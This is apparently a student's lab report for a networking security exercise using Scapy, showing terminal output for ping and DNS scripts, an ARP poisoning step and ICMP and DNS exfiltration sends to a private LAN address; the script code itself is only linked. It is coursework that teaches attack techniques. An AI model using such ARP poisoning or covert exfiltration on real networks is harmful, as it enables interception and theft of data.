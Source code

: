 # TP4 SECU : Exfiltration

## I. Getting started Scapy

**🌞 ping.py**

```bash
slayyzer@Slayz:~/Ynov/b2-network-2024$ sudo /bin/python3 ping.py 
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=7c:5a:1c:d3:d8:76 src=b0:dc:ef:bb:ff:9e type=IPv4 |<IP  frag=0 proto=icmp src=10.33.73.81 dst=1.1.1.1 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=b0:dc:ef:bb:ff:9e src=7c:5a:1c:d3:d8:76 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=36798 flags= frag=0 ttl=55 proto=icmp chksum=0x9eaf src=1.1.1.1 dst=10.33.73.81 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 unused=b'' |<Padding  load=b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>>)
```
[Voir code](./Scripts/ping.py)


**🌞 tcp_cap.py**

```bash
slayyzer@Slayz:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 1.1.1.1
- Adresse IP dst : 10.33.73.81
- Port TCP src : 80
- Port TCP dst : 55592
```
[Voir code](./Scripts/tcp_cap.py)


**🌞 dns_cap.py**

```bash
slayyzer@Slayz:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 dns_cap.py 
Begin emission:
Finished sending 1 packets.
...*
Received 4 packets, got 1 answers, remaining 0 packets
104.26.10.233
```
[Voir code](./Scripts/dns_cap.py)


**🌞 dns_lookup.py**
```bash
slayyzer@Slayz:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 dns_lookup.py 
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
104.26.10.233
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
142.250.200.206
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
140.82.121.3
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
82.67.64.82
```
[Voir code](./Scripts/dns_lookup.py)


## II. ARP Poisoning

```bash
[slayz@localhost ~]$ ip n s
**192.168.56.148 dev enp0s3 lladdr b0:dc:ef:bb:ff:9e STALE**
192.168.56.102 dev enp0s3 lladdr 08:00:27:f8:a8:b0 STALE 
192.168.56.1 dev enp0s3 lladdr 0a:00:27:00:00:00 REACHABLE 
```
[Voir code](./Scripts/arp_poisoning.py)


## III. Exfiltration ICMP
**🌞 icmp_exf_send.py**
```bash
slayz@debian:~/Repo Git/b2-network_2024-2025$ sudo python3 TP4/Scripts/icmp_exf_send.py 192.168.1.11 j
.
Sent 1 packets.
```
[Voir code](./Scripts/icmp_exf_send.py)  
[Voir trame Wireshark sur le icmp send]('./TP4/icmp_exf_send.pcapng')

## III. Exfiltration DNS

**🌞 dns_exfiltration_send.py**
```bash
slayz@debian:~/Repo Git/b2-network_2024-2025$ sudo python3 TP4/Scripts/dns_exfiltration_send.py 192.168.1.11 test
.
Sent 1 packets.
```
[Voir code](./Scripts/dns_exfiltration_send.py)  
[Voir trame Wireshark sur le dns exfiltration]('./TP4/dns_exfiltration_send.pcapng')
